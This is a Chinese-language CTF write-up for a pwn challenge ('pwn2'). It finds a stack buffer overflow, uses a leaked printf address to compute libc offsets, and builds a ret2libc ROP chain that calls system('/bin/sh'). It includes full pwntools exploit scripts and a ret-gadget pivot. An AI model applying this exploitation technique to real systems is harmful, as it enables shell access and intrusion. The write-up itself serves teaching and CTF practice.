> 本题附件我有，如果想做的话，可以[邮箱](mailto:2406213396@qq.com)联系

先看`pwn`的架构



没栈保护，但是栈不可执行，地址没有随机化，可以猜测，这里可能考察栈迁移，题目还下发了`libc`库文件，具体还需要看看内部漏洞

定位main函数



这里说是给我们一个礼物，然后打印`printf`函数的地址，调用`sub_401196()`函数，我有个猜测，这里大概率考察如何调用`libc`上的后门函数，理由便是，这里的`printf`并没有被打包在`pwn2`中，追踪后会发现，它其实在外部定义,再结合题目下发了`libc.so.6`，我的猜测完全可以被证实



这是`libc.so.6`里的函数表



我再顺手过滤了下关键字`sh`，看到挺干净的一个后门指令



然后再结合它的架构信息存在栈保护以及地址随机化,我们就能明白，为啥说`printf`的地址就是`gift`:我们只有获取到`printf`的地址，才能通过偏移计算，调用到我们想要的后门指令`/bin/sh`



继续分析`pwn2`

就从`main`那里追踪`sub_401196`，不是很建议直接看源代码，我感觉效果不好，有点点乱，我们直接看汇编



注意，这里先给`buf`分配了`0x100h`的大小，然后用一系列`mov`指令，将分配的`0x100h`缓冲区上的值更新为`0`，避免原先栈上的垃圾数据污染栈

结合反汇编一起看，这里调用的`read`函数要一次性读`0x100h`,和缓冲区地址严丝合缝，貌似在这里无法实现栈溢出操作


向下追踪`sub_401156`



在这里，我们遇到了漏洞点，首先它为`buf`申请了16字节的缓冲区,但是！它读取的内容却是`32`字节，超出了`16`字节,貌似可以完美溢出?



漏洞点已经找到了，我稍微画个简易栈布局



不多不少，我们这里只能覆盖到返回地址，我计划这个返回地址就写前面那个`0x100`缓冲区的地址

接下来就是打`ROP`了，理论上，我们需要在`libc`库里找这四样指令(函数)或字符串的地址：

- `printf` : 找到`libc`里的函数地址，再和`pwn2`文件运行输出的地址比较，就能计算出`libc`的基址，间接获取到所有有用的指令地址
- `system`：也是一个函数
- `pop rdi ; ret`：这个指令的作用是将某个值存储到`rdi`参数寄存器中
- `/bin/sh` ：这就是一个字符串，如果被`system`调用，就能直接执行系统命令

执行的命令如下:

```bash
strings -a -t x libc.so.6 | grep "/bin/sh"
ROPgadget --binary libc.so.6 | grep "pop rdi ; ret"
readelf -s libc.so.6 | grep printf
readelf -s libc.so.6 | grep system
```

我整理出来的偏移数据如下：

```python
binsh_offset = 0x1d8678
system_offset = 0x50d70
printf_offset = 0x606f0
pop_rdi_offset = 0x2a3e5
```

`ROP`链应该是`pop_rdi_addr+binsh_addr+system_addr`(`addr`应该是`PIE+offset`)

完整`payload`得分三步走

1. 获取`printf`地址，并减去`printf_offset`，得到`libc_PIE`
2. 写入完整的`ROP`链(不能超过`0x100`字节)
3. 在漏洞点溢出部分写入`ROP`链的地址

貌似还缺少一个细节不清楚，就是存`ROP`链的栈空间地址是多少？这倒是不难处理，在`0x401196`打个断点，看看`rsp`寄存器存的地址就行



看我下面选中的白色部分，得到了`RSP=0x7fffffffe120`,~~这是固定的，拿来用就行~~

那么我的exp如下：

```python
from pwn import *

p=process("./pwn2")
p.recvuntil(b"Here's your gift: ")
print_leak=int(p.recvline().strip(), 16)
print(hex(print_leak))

binsh_offset = 0x1d8678
system_offset = 0x50d70
printf_offset = 0x606f0
pop_rdi_offset = 0x2a3e5

libc_pie = print_leak - printf_offset
binsh = libc_pie + binsh_offset
system = libc_pie + system_offset
pop_rdi = libc_pie + pop_rdi_offset
rop_addr = 0x7fffffffe120

ROP_Chain=p64(pop_rdi)+p64(binsh)+p64(system)

p.recvline(b"What's you want to tell me?")
p.sendline(ROP_Chain)

p.recvline(b"Who you are?")
p.sendline(b'a'*24+p64(rop_addr))
p.interactive()

```

上面脚本运行失败是正常的，因为我将ROP的地址给硬编码了，事实上，这里的栈地址每次都会随机，绝对不能进行硬编码，需要通过某些手段获取正确的地址



上图框中的部分是`sub_401196`的`rsp`寄存器的值：`0x7fffffffe080`,下面为了描述方便，我将`sub_401196`叫做主函数，`sub_401156`成为子函数



我们再对比下子函数的`rbp`寄存器：`0x7fffffffe070`上下两个寄存器之间就差`16`个字节，这在二进制里，几乎可以说是相邻的,好吧，就是相邻的，我说过的，子函数这里一共能写`32`字节，就是`0x20`，看RSP，我一旦写了`0x20`，就会直接来到主函数的`rsp`寄存器边界`0x7fffffffe080`,，因此这两个栈帧完全相邻

知道这些怎么利用呢？我前面的exp卡住的点就是，无法锁定主函数的RSP地址，既然这里相邻，我让子函数的返回地址移动到主函数的`rsp`寄存器边界不就可以了嘛？

这里有点点概念需要了解下：



leave指令可以拆分成这两条小指令：

```assembly
mov rsp, rbp
pop rbp
```

在子函数中，`rsp`寄存器的值应该是`0x7fffffffe070`，这并不难理解吧，因为我们让它从`0x7fffffffe060`+`0x10`向下增长到了`0x7fffffffe070`

至于`rbp`，我们就把它当作吉祥物吧，差不多就是做个参照物的用途，然后我们需要关注pop指令，它有个特点，每运行一次，`rsp`的值都要`+8`，这是规定，记住即可

那么这个`leave`指令会让`rsp`寄存器从`0x7fffffffe070`变成`0x7fffffffe078`

`ret`指令可以写成`pop rip`，同样出现了一次`pop`，因此`rsp`寄存器的值就从`0x7fffffffe078`来到了`0x7fffffffe080`，这里的`rip`寄存器需要注意，它就是所谓的记录当前指令地址的寄存器，这里其实隐藏的进行了一次操作`rip=[rsp]`然后才是`rsp=rsp+8`,这个时候呢，`rip`应该已经跳转到`0x7fffffffe078`地址指向的返回地址，然后我们再进行一次`ret`，将当前的`rsp=0x7fffffffe080`存到`rip`里，给`rsp`再`+8`，就变成了`0x7fffffffe088`

到这里就够了，因为我有说过，rip指向的是当前指令的地址，而`0x7fffffffe080`恰好就是我计划存储rop链的地方，然后就是将军！

获取干净的ret，需要使用这个命令`ROPgadget --binary pwn2 --only "ret"`



我们可以去`ida`进行确认



将我们原本`exp`里的`rot_addr`改成`ret_addr`即可



爽！

这是完整exp

```python
from pwn import *

p=process("./pwn2")
p.recvuntil(b"Here's your gift: ")
print_leak=int(p.recvline().strip(), 16)
print(hex(print_leak))

binsh_offset = 0x1d8678
system_offset = 0x50d70
printf_offset = 0x606f0
pop_rdi_offset = 0x2a3e5

libc_pie = print_leak - printf_offset
binsh = libc_pie + binsh_offset
system = libc_pie + system_offset
pop_rdi = libc_pie + pop_rdi_offset
ret_addr = 0x40101a

ROP_Chain=p64(pop_rdi)+p64(binsh)+p64(system)

p.recvline(b"What's you want to tell me?")
p.sendline(ROP_Chain)

p.recvline(b"Who you are?")
p.sendline(b'a'*24+p64(ret_addr))
p.interactive()
```

---

本题只能在Ubuntu-22.04这样的环境运行，确切来说是需要glibc版本为2.35，否则会直接崩溃，无法调试运行

比赛时具体的检测措施可以是：

```bash
strings ./pwn2 | grep -i "glibc\|ubuntu\|release"
strings ./libc.so.6 | grep -i "glibc\|ubuntu\|release"
```

这两条命令中，前者可以帮助我们查看二进制具体是在什么系统编译的，一般用这个就够了，如果不方便调试这样的系统，那就换用第二条命令



注意看，第一个命令的返回结果中，可以看得出来二进制是在ubuntu-22.04里编译的

然后看第二条命令输出的时候，就挑最大的那个版本号

